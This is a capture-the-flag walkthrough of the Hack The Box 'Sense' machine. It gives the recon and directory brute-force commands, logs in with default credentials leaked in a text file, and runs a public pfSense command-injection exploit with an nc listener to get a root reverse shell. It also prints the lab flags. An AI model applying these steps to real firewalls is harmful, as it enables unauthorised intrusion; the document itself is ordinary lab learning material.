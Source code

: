 #pfsense

# Reconnaissance

```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.60 --type All
# Nmap
nmap -sV -sC -A 10.10.10.60 -Pn
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sense]
└─$ nmap -sV -sC -A 10.10.10.60 -Pn

Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 15:58 CST
Nmap scan report for 10.10.10.60
Host is up (0.28s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.77 seconds

```

# Enumeration

## Enumerate on 80/443

![[Sence-01.png]]

we will see a login page on 80/443 port. Let's google "Sense default password" but nothing found. And will check source code and nothing found.

sure, let's gobuster to find any other folder but also failed.

```bash
# note the syntax has changed a bit since 2017
gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k
```

```txt
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]   
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]   
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]   
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]      
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/] 
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/] 
```

we will find https://10.10.10.60/tree/ has page like this:

![[Sence-02.png]]

And https://10.10.10.60/installer/installer.php is accessible.

To find more information, we will use dirbuster to find any useful information of this site. In 2017, that was the best tool to recurrsively directory brute force, looking at subdirectories and more folders, and we click the run button.

```bash
dirbuster -u https://10.10.10.60 -t 20 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r sense-10.10.10.60/dirbuster_dir-med -e php,txt,html
```

```bash
# or use gobuster reduce noise for some specific extensions
gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k -t 20 -s 200 -x php,txt,jpg,jpeg,gif
```
There are a couple interesting things here:

```
File found: /stats.php - 200
File found: /edit.php - 200
File found: /license.php - 200
File found: /system.php - 200
File found: /status.php - 200
File found: /changelog.txt - 200
File found: /exec.php - 200
File found: /graph.php - 200
Dir found: /tree/ - 200
File found: /tree/index.html - 200
File found: /tree/tree.js - 200
File found: /wizard.php - 200
File found: /pkg.php - 200
Dir found: /installer/ - 302
File found: /installer/index.php - 302
File found: /installer/installer.php - 200
File found: /xmlrpc.php - 200
File found: /reboot.php - 200
File found: /interfaces.php - 200
File found: /system-users.txt - 200

```

![[Sence-04.png]]

/changelog.txt

![[Sence-03.png]]

/system-users.txt

![[Sence-05.png]]


# Exploitation

Excelent! we will use this credential to login the page. The [default password on a PFSense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) router is “pfsense”, and at the login screen, the credentials “rohit” / “pfsense” worked.

![[Sence-06.png]]

Very nice! we are in this home page. The pfSense project is a free network firewall distribution, based on the FreeBSD operating system with a custom kernel and including third party free software packages for additinal functionality.  It has successfully replaced every big name commercial firewall you can imagine in numerous installations around the world, including check Point, Cisco PIX, Cisco ASA, Juniper, Sonicwall, Netgear, Watchguard, Astaro, and more.

We will find pfSense version is *2.1.3-RELEASE*

Next step, we will use searchsploit to find any information.

```bash
searchsploit pfSense 2.1.3-RELEASE
# pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
searchsploit -x 43560
searchsploit -m 43560
# build up a listener
nc -vlp 3333
# run the script
python3 43560.py help
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.3 --lport 3333 --username rohit --password pfsense
```

![[Sence-07.png]]

```bash
id
whoami
```

![[Sence-08.png]]

# Privilege Escalation

We will find we already have root privilege escalation.  We try uprade the shell but failed.

```bash
# type the flag
cat /home/rohit/user.txt
cat /root/root.txt
# user flag
8721327cc232073b40d27d9c17e7348b
# root flag
d08c32a5d4f8c8b10e76eb51a69f1a86
```

![[Sence-09.png]]
![[Sence-10.png]]

